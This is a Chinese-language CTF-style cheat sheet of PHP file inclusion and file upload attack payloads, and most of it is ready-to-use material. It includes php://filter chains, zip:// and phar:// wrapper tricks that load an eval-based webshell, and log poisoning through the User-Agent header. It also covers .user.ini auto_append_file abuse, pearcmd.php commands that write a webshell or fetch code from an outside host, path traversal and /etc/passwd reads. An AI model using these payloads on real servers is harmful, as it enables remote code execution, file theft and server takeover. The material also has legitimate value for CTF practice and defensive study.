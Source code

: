 [实战 | 文件上传漏洞之最全代码检测绕过总结](https://mp.weixin.qq.com/s/6ArBgNYpsQH7WkaaJY6GfQ)

# LFI/文件包含

| Name                                                                                                                                                                                              | payload                                                                                                                                            |     |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------- | --- |
| `?file=index` 或 `?file=index.php` 有可能需要去掉 .php                                                                                                                                            |                                                                                                                                                    |     |
| `?file=php://filter/convert.iconv.UTF-8.UTF-7/resource=flag.php` <br> `?file=php://filter/convert.iconv.UTF8.CSISO2022KR\|convert.iconv.ISO2022KR.UTF16\|convert.iconv.L6.UCS2/resource=flag.php` | UTF-8 过滤器 , 可以上面两个联合用                                                                                                                  |
| PHP_INCLUDE_TO_SHELL_CHAR_DICT                                                                                                                                                                    | 文件包含即命令执行 [原理](https://goodapple.top/archives/968)                                                                                      |     |
| glob://                                                                                                                                                                                           |                                                                                                                                                    |     |
| 上传 a.zip 改为 a.jpg                                                                                                                                                                             | zip://伪协议进行包含 一句话 a.php `<?php @eval($_POST['a'])?>` <br>url: `http://xxx//index.php?url=zip:///app/upload/pic.jpg%23basic.php` 密码为 a |
| pearcmd.php 包含                                                                                                                                                                                  | [#pearcmd](#pearcmd)                                                                                                                               |
| 日志包含                                                                                                                                                                                          | 1.抓包修改 Agent 访问 2.包含日志 /var/log/nginx/access.log                                                                                         |
| phpinfo 中 `allow_url_include=On;allow_url_include=On`时                                                                                                                                          | 可 ?file=http://xxx.com/1.txt 远程包含                                                                                                             |
| 使用 [.user.ini](#userini) 进行包含                                                                                                                                                               | auto_append_file=2.jpg                                                                                                                             |
| Nginx 0.8.41 ~ 1.4.3 / 1.5.0 ~ 1.5.7                                                                                                                                                              | [CVE-2013-4547](exp/Nginx%20%E6%96%87%E4%BB%B6%E5%90%8D%E9%80%BB%E8%BE%91%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2013-4547%EF%BC%89.md) requests_demo.py    |

日志包含

```sh
'/var/log/nginx/access.log'
'/var/log/apache2/access.log'
'/var/log/httpd/access_log'
```

## .user.ini

相当于 `include('xx.txt')`, 利用.user.ini的前提是服务器开启了CGI或者FastCGI，并且上传文件的存储路径下有index.php可执行文件。
- auto_prepend_file
- auto_append_file

| Desc                      | .user.ini                                    | payload                                                                                |
| ------------------------- | -------------------------------------------- | -------------------------------------------------------------------------------------- |
| 过滤了`<?` 包含 post 数据 | `auto_append_file=php://input`               | url:`index.php` <br>body: `<?php phpinfo();?>`                                         |
| 日志包含                  | `auto_append_file=/var/log/nginx/access.log` | url:`index.php` <br> body: `1=phpinfo();`<br>usUser-Agent: `<?php eval($_POST[1]);?> ` |

## pearcmd

1. 知道 pearcmd.php 文件的路径（默认路径是/usr/local/lib/php/pearcmd.php）, phpinfo 中的 `include_path`
2. `register_argc_argv=On`
3. payload `要用burp发`

```sh
# 不出网
index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=@eval($_POST['cmd']);?>+/tmp/test.php
a1.php?file=/usr/local/lib/php/pearcmd.php&+config-create+/'<?=phpinfo()?>'+./info1.php

# 出网
index.php?+install+--installroot+&file=/usr/local/lib/php/pearcmd.php&+http://xilitter.top/123.php
```

# Python

```sh
/download?file=../../../app/__pycache__/part.cpython-311.pyc
```

# 文件上传

- `$_GET['xxx']`, 都可以用 filter 这类读文件尝试
- %00 截断 php 版本小于 5.3.4
- 上传为 zip 为 pic.jpg, zip://读取 url: `http://xxx//index.php?url=zip:///app/upload/pic.jpg%23basic.php` ,需要将#编码为%23
- 上传为 zip 用 phar 去读
- 上传时和文件相关都可能是 phar 反序列化,如 `file_exists($filename)` 考虑 phar 反序列化 `phar://abc.phar.gif/test.txt`
  - 能进行攻击的不只有 file_get_contents，所有的文件函数都会导致这个问题
- 压缩包软链接，传到/tmp/data 下, ，这个软链接指向 flag，即可获取 flag

```sh
# 触发  phar 反序列化
fileatime / filectime / filemtime
stat / fileinode / fileowner / filegroup / fileperms
file / file_get_contents / readfile / fopen
file_exists / is_dir / is_executable / is_file / is_link / is_readable / is_writeable / is writable.
parse_ini_file
unlink
copy
```

# 文件读取

url=file://127.0.0.1/etc/passwd
url=file:///etc/passwd
